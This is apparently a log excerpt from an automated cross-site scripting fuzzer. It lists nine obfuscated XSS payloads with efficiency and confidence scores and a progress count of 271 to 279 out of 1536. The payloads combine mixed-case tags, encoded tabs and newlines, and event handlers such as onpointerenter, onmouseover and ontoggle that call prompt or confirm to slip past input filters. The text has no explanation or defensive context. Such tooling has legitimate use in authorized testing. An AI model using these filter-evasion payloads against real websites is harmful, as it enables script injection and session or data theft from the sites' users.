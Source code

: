------------------------------------------------------------
 Payload: <HTmL%0aonPoINteRentER+=+a=prompt,a()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 271/1536
 
------------------------------------------------------------
 Payload: <Html%0dOnPoiNteRenTeR%09=%09(prompt)``// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 272/1536
 
------------------------------------------------------------
 Payload: <A%09oNpoINTEREnTEr+=+[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 273/1536
 
------------------------------------------------------------
 Payload: <a%09oNPOINtERENteR%0a=%0aa=prompt,a()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 274/1536
 
------------------------------------------------------------
 Payload: <htmL/+/ONMousEovEr%0a=%0aconfirm()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 275/1536
 
------------------------------------------------------------
 Payload: <dETaIls%09oNTOggLE+=+[8].find(confirm)// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 276/1536
 
------------------------------------------------------------
 Payload: <A%09ONmoUsEoVER+=+[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 277/1536
 
------------------------------------------------------------
 Payload: <D3V%09OnMoUSEoVER%0a=%0a(confirm)()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 278/1536
 
------------------------------------------------------------
 Payload: <a%0aonpOInterEnTEr+=+(prompt)``//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 279/1536
 